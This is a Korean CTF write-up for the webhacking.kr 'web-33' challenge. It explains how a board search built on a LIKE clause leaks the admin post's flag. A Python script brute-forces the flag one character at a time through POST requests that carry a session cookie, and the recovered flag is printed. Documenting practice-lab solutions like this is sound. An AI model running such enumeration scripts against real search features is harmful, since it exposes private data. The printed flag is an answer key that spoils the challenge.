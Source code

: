 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-46-28.png)


# **Write-Up**

readme를 누르면 access denied라고 나온다.

![](images/2022-01-03-03-46-46.png)

SQLi도 통하는 지 모르겠다.

![](images/2022-01-03-03-46-50.png)

다만 게시판이 그렇듯 guest가 적은 글의 일부분인 he를 넣었을 때, 결과가 나오는 것을 봐서 like문을 이용했을 것이라고 추측한다.

![](images/2022-01-03-03-46-54.png)

또한, flag{라고 입력했을 때, admin 글이 나오는 것으로 보아 FLAG가 적혀있을 것 같다.

![](images/2022-01-03-03-46-59.png)

_나 %은 모든 글자를 나타낼 수 있으므로 마지막으로 빼거나 제거하여 FLAG를 알아내자.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-33/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = 'flag{'
ascii_set   = '0123456789abcdefghijklmnopqrstuvwxyz!"#$&\'()*+,-./:;<=>?@[\]^`{|}~_'

for i in range(64):
    old_len = len(flag)
    for c in ascii_set:
        data        = {'search':"{}".format(flag+c)}
        req         = requests.post(url=CHALLENGE, headers=headers, data=data)
        if 'admin' in req.text:
            flag += c
            print('flag = {}'.format(flag))
            break
    if len(flag) == old_len: break

[Output]
... 생략 ...
flag{himiko_toga_is_cute_dont_you_think_so?}
```

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-47-16.png)


# **FLAG**

**flag{himiko_toga_is_cute_dont_you_think_so?}**